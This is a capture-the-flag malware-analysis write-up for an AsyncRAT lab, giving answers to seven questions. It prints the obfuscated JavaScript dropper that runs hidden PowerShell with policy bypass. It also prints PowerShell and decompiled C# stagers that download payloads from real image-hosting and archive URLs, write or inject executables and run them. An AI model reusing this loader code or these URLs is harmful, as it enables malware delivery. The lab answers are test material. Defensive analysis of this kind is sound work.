

# AsyncRAT Lab
---


Exercise lab: [here](https://cyberdefenders.org/blueteam-ctf-challenges/asyncrat/)

## Lab Introduction


You are a cybersecurity analyst at Globex Corp. A concerning report has come in: an employee opened an email with an attachment claiming to be an order specification, which actually harbored a JavaScript file designed to deploy AsyncRAT.

This malware evades detection with alarming efficiency. To secure Globex's network and data, you must analyze the attachment, reverse-engineer the AsyncRAT’s obfuscation techniques, and determine the scope of AsyncRAT's infiltration.

## Analyze

You can open Malicious File with VScode:


But it has been obfuscate and you must [deobfuscate](https://deobfuscate.relative.im/) it to clear code.

```javascript
var isTaskRunning = false;
function reverseString(inputString) {
  return inputString.split('').reverse().join('');
}

var decodedString =
  reverseString(
    '==Aa0FGUlhXRw1WZ0RCIk5WYt12\u265A\u265Bj1CIlxWam9mcQ9mTtAyczFGc5JGI5NWas9Gcu9Wa0V3YlhXZtAi\u265A\u265BlRGZphGIlxWe0N3dvRm\u265A\u265BpdXLgUGel5C\u265A\u265BsVGazJXZ39Gc7kyclRXeCRm\u265A\u265Bh1W\u265A\u265BvNGJgwCa0FGUlhXRw1WZ0RCKzVGd5JE\u265A\u265BsFUZ0lmcXpjOdVG\u265A\u265BpZkLPlkLtVGdzl3U\u265A\u265BtjIlhXZuICIrASKocm\u265A\u265BpJHdT9GVukCKklWdHdXZOpjOdRWa1dkLtVGdzl3U\u265A\u265BByKgkCKoRXYQBX\u265A\u265BlRFdldkO60Fa0FGUlhXRw1WZ0RyOpQm\u265A\u265Bh1W\u265A\u265BvNEN2U2chJGJocm\u265A\u265BpJHdTRjNlNXYC12\u265A\u265ByZkO60FdyVmdu92Qu0WZ0NXeTtFI9AyclRXeCRm\u265A\u265Bh1W\u265A\u265BvNGJ7Qm\u265A\u265Bh1W\u265A\u265BvNEN2U2chJGJg4WavpWL9Qm\u265A\u265Bh1W\u265A\u265BvNEN2U2chJGJ7kCZuFW\u265A\u265Bt92Q0YTZzFmYkgSZzJXZ2VmU6oTX5FmcyF2W7kCK5FmcyFkchh2QvRlLpgGdn5WZMRjNlNXYiRCIsgXZk5WS0JXY0NHJocm\u265A\u265BpJHdzJWdT5Cd4VGVldWYtlGJg0DIk5WYt12\u265A\u265BDRjNlNXYiRyO4VGZulEdyFGdzRCItACelRm\u265A\u265BJRm\u265A\u265BlRCI9ACa0dm\u265A\u265BlxEN2U2chJGJ7gGdn5WZM5yZhxmR0JXY0NHJg0zKggXZk5WS0JXY0NHJ7gXZk5WS0JXY0NHJgQ3ZtACelRm\u265A\u265BJRm\u265A\u265BlRCIk5WYtACMgU2ZtACelRm\u265A\u265BJRnchR3cksTKnFG\u265A\u265BGRm\u265A\u265BlRCKm9EelRm\u265A\u265BJ5Cd4VGVldWYtlGJg0DI4VGZulEZuVGJ7kyZhxmR0JXY0NHJoY2T4VGZulkL0hXZUV2Zh1WakASPggXZk5WS0JXY0NHJ7ciP+QkTF9FN2U0UBJEP8cCI9AyZhxmR0JXY0NHJ7kyclRXeCV2Zh1WakgyZulmc0NFdldkL4YEVVpjOddm\u265A\u265BpR2\u265A\u265Bj5WRuQHelRlLtVGdzl3U\u265A\u265BBSPgQHelRVZnFW\u265A\u265BpRyOpwmcVV2Zh1WakgSY0FGRkF2\u265A\u265Bs52dvRkL05WZpx2QiV2dkASPgMXZ0lnQldWYtlGJ7Qn\u265A\u265BllG\u265A\u265BDJWZX5Cdl5kLtVGdzl3UgQ3YlpmYP1ydl5EI9ACduVWasNkYldHJ7cyZuBnLrZzSzQlerhHczllcvMXZnFW\u265A\u265Bp9y\u265A\u265Bj5CZyJGcuIm\u265A\u265BkN2Zv8iOzBHd0h2Jg0DIsJXVldWYtlGJ'
  );

var shellCommand =
  reverseString("' = ogidoC$") +
  decodedString +
  "';" +
  reverseString('S[ = dxujWO$') +
  reverseString('eT.metsy') +
  reverseString('nU::]gnidocnE.tx') +
  reverseString('eG.edoci') +
  reverseString('C.metsyS[(gnirtSt') +
  reverseString('6esaBmorF::]trevno') +
  reverseString('lper.ogidoc$(gnirtS4') +
  reverseString(';)) )'b','\u265A\u265B'(eca') +
  reverseString('niw- exe.llehsrewop') +
  reverseString('exe- neddih elytswod') +
  reverseString('N- ssapyb ycilopnoituc') +
  reverseString('moc- eliforPo') +
  reverseString('dxujWO$ dnam');

var wScriptShell = 'WScript.Shell';

var shellObject = new ActiveXObject(wScriptShell);

shellObject.Run(
  'powershell -command "' + shellCommand + '"',
  0,
  false
);
```

Run it into Chrome Console you can receive an other malicious code. Purpose of this technique used to Defense Evasion.


Finally malicious code ([made beautiful](https://beautifier.io/)):

```powershell
$imageUrl = 'https://gcdnb.pbrd.co/images/rYspxkzT3K6k.png';
$webClient = New-Object System.Net.WebClient;
$imageBytes = $webClient.DownloadData($imageUrl);
$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);
$startFlag = '<<BASE64_START>>';
$endFlag = '<<BASE64_END>>';
$startIndex = $imageText.IndexOf($startFlag);
$endIndex = $imageText.IndexOf($endFlag);
$startIndex -ge 0 -and $endIndex -gt $startIndex;
$startIndex += $startFlag.Length;
$base64Length = $endIndex - $startIndex;
$base64Command = $imageText.Substring($startIndex, $base64Length).ToCharArray();
[array]::Reverse($base64Command);$base64Command=-join $base64Command;
$commandBytes = [System.Convert]::FromBase64String($base64Command);
$tempExePath = [System.IO.Path]::GetTempPath() + [System.Guid]::NewGuid().ToString() + ".exe";
[System.IO.File]::WriteAllBytes($tempExePath, $commandBytes);
powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command $tempExePath
```

When i access into https://gcdnb.pbrd.co/images/rYspxkzT3K6k.png, it really don't active a long time. If it ran up 1 times in this machine, i will analyze continue at `[System.IO.Path]::GetTempPath() + [System.Guid]::NewGuid().ToString() + ".exe";`

**Q1: In the process of dissecting the AsyncRAT payload, you discover a variable in the PowerShell script shrouded in complexity. What is the name of this variable that conceals the malicious obfuscated code?**

> **$Codigo**

**Q2: As you trace the AsyncRAT’s steps, you come across a pivotal moment where it reaches out to the internet, fetching the next phase of its invasion. Identify the URL used to download the second stage of this malicious campaign.**

> **https://gcdnb.pbrd.co/images/rYspxkzT3K6k.png**

**Q3: Within the chaos of encoded data retrieved during your investigation, there's a string that signals the beginning of the actual encoded code. What is this marker indicating where the encoded treasure lies within the downloaded file?**

> **<<BASE64_START>>**

## Continue Analyze

Access to Temp folder but something loss


Some osint tool is so useful in this case.


You can get image [here](rYspxkzT3K6k.png)


Decode base64 and extract into a file executable to analysis. File [here](Execution)

**Q4: The second stage of AsyncRAT has been meticulously unpacked, revealing an extracted Portable Executable (PE). To understand this stage's uniqueness, what is the MD5 hash of this extracted PE?**

> MD5: **c1aa076ca869a7520ca2e003b7c02ab3**

**Q5: AsyncRAT seeks to embed itself within the system for long-term espionage. During your sweep, you stumble upon a registry key intended for persistence. Can you provide the full path of this registry key where the malware attempts to solidify its presence?**


> **HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run**

**Q6: Your analysis doesn't stop at the second stage; the malware has more secrets to unveil. A third stage is downloaded from a URL you need to uncover. What is the URL from which the malware downloads the third stage?**



> **https://web.archive.org/web/20240701132151if_/https://gcdnb.pbrd.co/images/L3GM1EngRrYs.png**

🙂web.archive.org, I fell already taken a one step ahead

**Q7: With the third stage of AsyncRAT now in focus, another Portable Executable (PE) comes to light. For a comprehensive understanding of this stage, what is the MD5 hash of the extracted PE from the third stage?**

After you access above URL, you can download an other [image](L3GM1EngRrYs.png).

```C#
string address = Strings.StrReverse("gnp.sYrRgnE1MG3L/segami/oc.drbp.bndcg//:sptth/_fi15123110704202/bew/gro.evihcra.bew//:sptth");
			byte[] bytes = new WebClient().DownloadData(address);
			string @string = Encoding.UTF8.GetString(bytes);
			string text = "<<BASE64_START>>";
			string value = "<<BASE64_END>>";
			int num = @string.IndexOf(text);
			int num2 = @string.IndexOf(value);
			if (num >= 0 && num2 > num)
			{
				num += text.Length;
				int length = num2 - num;
				string text2 = @string.Substring(num, length);
				string text3 = new WebClient().DownloadString(Strings.StrReverse(Conversions.ToString(LAbWJK)));
				text3 = Strings.StrReverse(text3);
				new WebClient().Encoding = Encoding.UTF8;
				string text4 = text2;
				text4 = Strings.StrReverse(text4);
				string str = "C:\\Windows\\Microsoft.NET\\Framework";
				str += "\\v4.0.30319";
				AppDomain.CurrentDomain.Load(Convert.FromBase64String(text4)).GetType("Fiber.Class1").GetMethod("run").Invoke(null, new object[]
				{
					str + "\\RegAsm.exe",
					Convert.FromBase64String(text3)
				});
			}
```

Similar decode module with previous image, I have exe file: [here](Execution2)


> **3c63488040bb51090f2287418b3d157d**